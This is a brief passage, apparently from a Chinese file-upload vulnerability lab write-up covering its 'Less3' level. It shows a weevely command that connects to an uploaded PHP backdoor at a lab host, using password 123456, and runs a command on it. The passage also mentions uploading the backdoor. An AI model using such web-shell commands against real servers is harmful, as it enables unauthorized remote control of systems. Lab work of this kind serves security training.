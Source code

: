 ![78f067dafd1ec1df43fe00c89b5fb41d.png](../../images/5d2dbca2aafe4121aa5d6e81275c0fa8.png)

```
root@TQ:~/桌面# weevely http://upload.farmsec.com/upload/farmsec.php 123456 dir

```

![490877f75961416f7cbc569b4a122450.png](../../images/b99823f3f6e645f8bca5f54c6aa920fa.png)

## 1.2.2 Less3测试：

上传后门以后，提示错误为：
